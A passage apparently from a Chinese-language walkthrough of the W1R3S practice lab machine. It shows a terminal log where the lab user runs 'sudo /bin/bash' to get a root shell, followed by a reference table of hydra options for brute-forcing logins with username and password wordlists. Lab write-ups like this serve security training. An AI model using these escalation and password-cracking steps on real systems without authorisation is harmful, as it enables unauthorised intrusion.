 ```shell
w1r3s@W1R3S:~$ sudo -l
sudo: unable to resolve host W1R3S
[sudo] password for w1r3s:                                                                                                              
Matching Defaults entries for w1r3s on W1R3S:                                                                                           
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin                   
                                                                                                                                        
User w1r3s may run the following commands on W1R3S:                                                                                     
    (ALL : ALL) ALL                                                                                                                     
w1r3s@W1R3S:~$ sudo /bin/bash
sudo: unable to resolve host W1R3S                                                                                                      
root@W1R3S:~# whoami
root                                                                                                                                    
root@W1R3S:~# ip a                                                                                                                      
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000                                             
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00                                                                               
    inet 127.0.0.1/8 scope host lo                                                                                                      
       valid_lft forever preferred_lft forever                                                                                          
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:0c:29:66:14:99 brd ff:ff:ff:ff:ff:ff
    inet 192.168.8.129/24 brd 192.168.8.255 scope global dynamic ens33
       valid_lft 1046sec preferred_lft 1046sec
    inet6 fe80::98b5:2e62:8533:599e/64 scope link 
       valid_lft forever preferred_lft forever
root@W1R3S:~# 
```

**成功获取root权限的shell** 



`hydra`参数解释：

```shell
语法：Hydra 参数 IP 服务
参数：
-l login 小写，指定用户名进行破解
-L file 大写，指定用户的用户名字典
-p pass 小写，用于指定密码破解，很少使用，一般采用密码字典。
-P file 大写，用于指定密码字典。
-e ns 额外的选项，n：空密码试探，s：使用指定账户和密码试探
-M file 指定目标ip列表文件，批量破解。
-o file 指定结果输出文件
-f 找到第一对登录名或者密码的时候中止破解。
-t tasks 同时运行的线程数，默认是16
-w time 设置最大超时时间，单位
-v / -V 显示详细过程
-R 恢复爆破（如果破解中断了，下次执行 hydra -R /path/to/hydra.restore 就可以继续任务。）
-x 自定义密码。
```
